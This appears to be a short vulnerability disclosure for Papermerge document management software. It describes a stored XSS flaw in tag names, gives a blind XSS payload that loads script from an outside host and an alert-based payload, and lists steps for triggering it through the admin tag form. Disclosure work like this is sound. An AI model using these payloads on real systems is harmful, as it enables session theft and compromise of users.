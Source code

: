 # Description
Papermerge is an open source document management system (DMS) primarily designed for archiving and retrieving your digital documents. Instead of having piles of paper documents all over your desk, office or drawers - you can quickly scan them and configure your scanner to directly upload to Papermerge DMS. Papermerge DMS on its turn will extract text data from the scanned documents using Optical Character Recognition (OCR) technology the index it and make it searchable. You will be able to quickly find any (scanned!) document using full text search capabilities.
Papermerge is perfect tool to manage PDF, JPEG, TIFF and PNG formats.
# Technical Description
XSS in papermerge DMS via rendering of unsanitized tag name in the input label.
# Proof of Concept

* XSS payloads Used for exploit :
  * blind xss payload : ```"><script src=https://copp.xss.ht></script> ``` **use your own blind payloads**
  * Reflected XSS payload : ```<img src=x onerror=alert(1337)>```

1. setup papermerge in your localhost 
2. move to http://127.0.0.1:8000/admin/tag/add/
3. put the payload in the Name field 
4. BOOM !! XSS triggered
